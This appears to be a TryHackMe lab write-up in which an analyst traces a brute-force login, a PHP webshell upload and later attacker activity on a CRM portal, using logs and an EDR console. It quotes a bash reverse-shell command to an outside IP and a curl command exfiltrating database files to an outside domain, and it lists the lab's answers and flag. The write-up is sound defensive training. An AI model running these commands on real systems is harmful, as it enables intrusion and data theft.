## Portal Drop
You are on the day shift in the ProbablyFine when the monitoring dashboard flashes red. A new alert appears in the WAF summary, reporting a web scan on ``crm.trypatchme.thm`` followed by a suspicious file upload anomaly. The affected website is TryPatchMe's public-facing CRM portal, a valued customer who provides software patching consulting services.

That should be an easy case, since you have access to both the web access logs and the EDR console. Combined, they should give you a clear answer: either it's a False Positive, or the portal has been breached and TryPatchMe needs to patch the CRM now!

## Analyzing the Evidence
[Download Evidence](https://tryhackme.com/room/portaldrop)
To solve this case, you will need to correlate activity between two primary sources:
* Web Access Logs: Click the __Download Task Files__ button to retrieve the raw traffic data. You may find it helpful to use tools like ``grep``, ``awk``, or a spreadsheet editor to work through the file.
* EDR Console: You have access to the EDR console below, which is the primary tool for investigating the resulting attack detections and initiate response actions to contain the threat.

__URL__ : [EDR Console](https://static-labs.tryhackme.cloud/apps/portal-drop-edr/)
### Answer the questions below
#### Q1:What is the IP address that initiated the brute force on the CRM web portal?
```bash
34.67.91.83
```
For this I first tried to see the user agents . As for brute force we mostly use automated tools and tried to look for any malicious user agent.

First I only tried to see the user agents by assuming theres login keyword in the uri and the request is __POST__ and we can see the user agents in it .And we can see there a user agent that look odd ``PF_Scanner``.So i searched for it on google.
.
So now i filter logs for that particular user agent.

And we can see the ip address of the brute forcing Ip.
#### Q2:How many successful and failed logins are seen in the logs?
Answer Example: 42, 56
```bash
18, 35
```
I spent alot of time doing this all because of space between the comman and 35 made me thinking what was I doing wrong.But it was quite easy.  
For Successful Login:
``awk '$6 ~ /POST/ && $7 == "/CRM/login.php" && $9 == 200' access-combined-crm-1767978582478-1768841821765.log | wc -l``  
For Failed Login:
``awk '$6 ~ /POST/ && $7 == "/CRM/login.php" && $9 == 401' access-combined-crm-1767978582478-1768841821765.log | wc -l``  
All are we doing in these are filtering logs for web response of __200__(May used successfull login) and __401__(May used for bad credentials)
.
#### Q3:Following the brute force, which user-agent was used for the file upload?
```bash
python-requests/2.31.0
```
Read the Question carefully as it is asking "what user agent was used for file upload following by brute force" meaning file must be upload by same ip address. So filter for that ip address.
. 
We can see that ip address upload couple of files with ``python-requests/2.31.0`` user agent.
#### Q4:What was the name of the suspicious file uploaded by the attacker?
```bash
invoice.php
```
In those same logs we can see that attacker upload some file and than retrive that file in the next log.

#### Q5:At what time did the attacker first invoke the uploaded script?
(Answer Example: 2025-10-24 15:35:50)
```bash
2025-11-06 14:27:34
```
Again looking at the same logs we can see when the attacker first invoke the script.

#### Q6:What is the first decoded command the attacker ran on the CRM?
```bash
whoami
```
Copy the query parameter go to cyber cheif and decode it twice in ( From Base64 ).

#### Q7:Based on the attacker’s activity on the CRM, which MITRE ATT&CK Persistence sub-technique ID is most applicable?
```bash
T1505.003
```

#### Q8:Which process image executes attacker commands received from the web?
```bash
/usr/sbin/php-fpm7.4
```
So for this i opened EDR Console and opened the __"Suspicious File Write: Backdoor:PHP/Generic"__ Alert.Opened the IOC tab 

So ``invoice.php`` is the webshell and it uses ``/usr/sbin/php-fpm7.4`` process for executing the commands.
#### Q9:What command allowed the attacker to open a bash reverse shell?
```bash
bash -i >& /dev/tcp/115.58.148.86/8080 0>&1
```
Open the logs for attacker ip and copy the second query in the webshell file parameter and go to cyber chief and decode it twice.
 
#### Q10:Which Linux user executes the entered malicious commands?
```bash
www-data
```
Open the "Unusual User Behavior: System Discovery" alert.Scroll down and we can see the user who executed the commands.

#### Q11:What sensitive CRM configuration file did the attacker access? 
```bash
/etc/trycrm/config.json
 ``` 
For this I opened the Unusual "User Behavior: System Discovery".In the Process Info it shows that a ``cat`` command was executed on a file and it was a flaged as sensitive.
  
#### Q12:Which domain was used to exfiltrate the CRM portal database?
```bash
portaldrop2025.xyz
```
Again in the same alert there was a ``curl`` command and it's commandline ``curl -sS -T /var/lib/trycrm/prod.db -T /var/lib/trycrm/prod.idx https://portaldrop2025.xyz/x7Ja0mlqP`` shows that it was exfiltrating database file to domain named as ``protaldrop2025.xyz``
#### Q13:After responding to all detections, what flag do you obtain?
```bash
THM{p0rtal_dropp3d?}
```
After responding to the detections we got the flag.